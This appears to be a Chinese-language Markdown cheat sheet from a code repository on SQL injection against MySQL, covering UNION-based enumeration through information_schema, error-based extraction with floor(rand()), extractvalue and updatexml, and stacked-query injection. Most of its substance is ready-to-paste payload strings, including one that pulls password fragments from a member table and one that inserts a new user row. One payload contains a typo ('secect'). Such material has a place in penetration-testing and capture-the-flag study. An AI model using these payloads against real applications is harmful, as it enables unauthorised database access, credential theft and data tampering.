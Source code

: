 # 回显注入法 -- 能在页面直接显示结果
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 UNION联合查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: union注入法前提要**知道列数**和**页面能回显**
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名加引号,推荐改为十六进制(hex),记得添加 0x。

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 报错查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 构造payload让信息通过错误提示回显出来
![](/assets/F959A1FB7211CB335A3944DE5CBA4FF1.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 经典报错函数（结合Burpsuite快速获取内容）
![](/assets/2DA57441F54D5F917232F998ACD62900.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: [floor()](https://blog.csdn.net/liangdongjuan/article/details/78406395)
```sql
and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))) %23
select version()可替换 select table_name from information_schema.tables where table_schema=database() limit 0,1

因为存在长度限制问题，采用substr()函数进行切割
and (extractvalue(1,concat(0x7e,(select substr(password,1,31) from stormgroup.member limit 1,1),0x7e)))
```
![](/assets/7DF1248C5FA74AA8624787ECEBB8C368.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: and extractvalue(1, payload)
```sql
and extractvalue(1, concat(0x7e,(select @@version),0x7e)) and updatexml(1,concat(0x23,(select table_name from
information_schema.tables where table_schema='newblog' limit 0,1),0x23),1)
```
![](/assets/22F086091F949BB64B59D97865EFE310.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: and updatexml(1,payload,1)
```sql
    and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
```
![](/assets/26024E61529BC7DF606D3641DB676AAB.png)

**注意: [其他报错方式](https://www.waitalone.cn/mysql-error-based-injection.html)、报错返回会有32限制(采用substr(concat(内容),1,2)截取)**
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 堆叠注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 语句用 ; 隔开添加新的执行语句


```
 参数'; insert into users(id,username,password) value (66,'acca','bbc')--+
```


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[堆叠注入实战](https://blog.csdn.net/SouthWind0/article/details/82929895)、[各库堆叠注入](https://www.cnblogs.com/0nth3way/articles/7128189.html)








